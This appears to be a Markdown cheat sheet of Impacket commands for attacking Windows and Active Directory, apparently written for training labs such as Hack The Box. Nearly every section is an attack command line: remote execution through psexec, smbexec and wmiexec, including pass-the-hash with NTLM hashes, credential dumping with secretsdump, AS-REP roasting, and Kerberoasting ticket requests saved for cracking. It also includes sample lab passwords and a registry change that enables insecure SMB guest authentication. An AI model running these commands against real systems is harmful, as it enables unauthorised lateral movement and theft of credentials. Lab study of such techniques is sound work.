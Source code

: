 # Impacket Tools

## Impacket SMBServer
```
$sudo python3 impacket-smbserver -u <username> -p <password> <name of share> <location of share>
$sudo python3 impacket-smbserver -smb2support -u <username> -p <password> <name of share> <location of share>
$sudo impacket-smbserver -smb2support <name of share> `pwd`
$sudo python3 smbserver.py -smb2support files $(pwd) -username test -password test

Sample Usage: $python3 impacket-smbserver -u myusername -p secretpassword myshare $(pwd)
Tip: use $(pwd) for the current working  directory
```

 ## Map Drive from CLI
 ```
 net use f: \\10.10.14.49\files /user:ph0enix password123
 net use M: \\ip-address\share /Persistent:Yes
 ```

## PSExec
```
[Sample Usage] python3 psexec.py Administrator@10.10.10.10 (enter password when prompted)
[PWD Auth] python3 psexec.py hacklab.local/ADLab02:P@ssw0rd123@192.168.10.17
[PTH] psexec.py Administrator@192.168.10.17 -hashes "aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5"
[PTH] psexec.py INLANEFREIGHT.LOCAL/Administrator@172.16.5.5 -hashes "aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf"
```

## SMBExec
```
[Sample Usage] python3 smbexec.py Administrator@10.10.10.10 (enter password when prompted)
[PWD Auth] python3 smbexec.py hacklab.local/ADLab02:P@ssw0rd123@192.168.10.17
[PTH] python3 smbexec.py Administrator@192.168.10.17 -hashes "aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5"
```

## WMIExec
```
[Sample Usage] python3 wmiexec.py Administrator@10.10.10.10 (enter password when prompted)
[PWD Auth] python wmiexec.py hacklab.local/ADLab02:P@ssw0rd123@192.168.10.17
[PTH] python wmiexec.py Administrator@192.168.10.17 -hashes "aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5"
```

## MSSQLClient
```
$python3 mssqlclient.py -port 1433 -db volume -windows-auth <username>@<ip address>
```

## WMIExec
```
$python3 wmiexec.py <username@hostname>
$python3 wmiexec.py <username:password@hostname>
```

## LookupSID
```
$python3 lookupsid.py <domain/username@hostname>
$python3 lookupsid.py <domain/username:password@hostname>
```

## SecretsDumping
```
python secretsdump.py htb.local/Administrator@reel.htb.local (enter password when prompted)
```

## Windows 10 SMBShare Can Connect
[URL](https://www.youtube.com/watch?v=vyatMj1Z2NQ)
```
Regedit
Browse to: Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters
Create a DWORD 32bit key: AllowInsecureGuestAuth and set to 1 for on, 0 for off
```

## GetNPUSers (ASRepRoasting)
Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking
```
python GetNPUsers.py htb.local/ -no-pass -usersfile domain_users.txt -format hashcat
```

## Kerberoasting
Query Domain for any Kerberoastable Users
```
python GetUserSPNs.py active.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-ip 10.129.57.178
```

## Kerberoast (request ticket)
Request ticket for account
```
python GetUserSPNs.py ACTIVE.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-ip 10.129.57.178 -request -outfile user-spn.hash
```